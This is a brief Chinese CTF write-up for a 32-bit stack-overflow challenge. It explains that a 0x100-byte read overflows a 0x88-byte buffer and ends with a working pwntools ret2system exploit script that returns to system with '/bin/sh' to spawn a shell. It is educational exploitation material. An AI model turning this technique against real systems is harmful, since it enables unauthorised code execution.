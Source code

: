 ## 0x001 程序分析

分析main函数

![](1.png)

main函数中调用了 **vulnerable_function** 函数和使用 **system** 函数打印了字符串。

![](2.png)

在 **vulnerable_function** 函数中，还是使用 **system** 函数打印了字符串，并且通过 **read** 函数接收输入 0x100 个字符保存到局部变量 **buf** 中。

## 0x002 漏洞分析

这个漏洞也很明显，位于 **vulnerable_function** 函数中，由于接收输入的长度为 0x100，而局部变量 **buf** 距离 **ebp** 只有 0x88 字节，因此通过输入很容易造成栈溢出，覆盖返回地址。

## 0x003 漏洞利用

查看程序开启的保护

![](3.png)

未开启栈溢出保护，可以通过构造ROP进行漏洞利用绕过NX保护。

首先程序中调用了 **system**，并且程序的bss段中存在字符串 **/bin/sh**。

![](4.png)

那么就可以直接构造payload。

python3 exp如下：
```
from pwn import *

p = process("./pwn")

bin_sh_addr = 0x0804A024

# payload = 填充物 + system_plt + bin_sh_addr
payload = b"A" * 0x8C + p32(0x0804849E) + p32(bin_sh_addr)

p.sendline(payload)
p.interactive()
```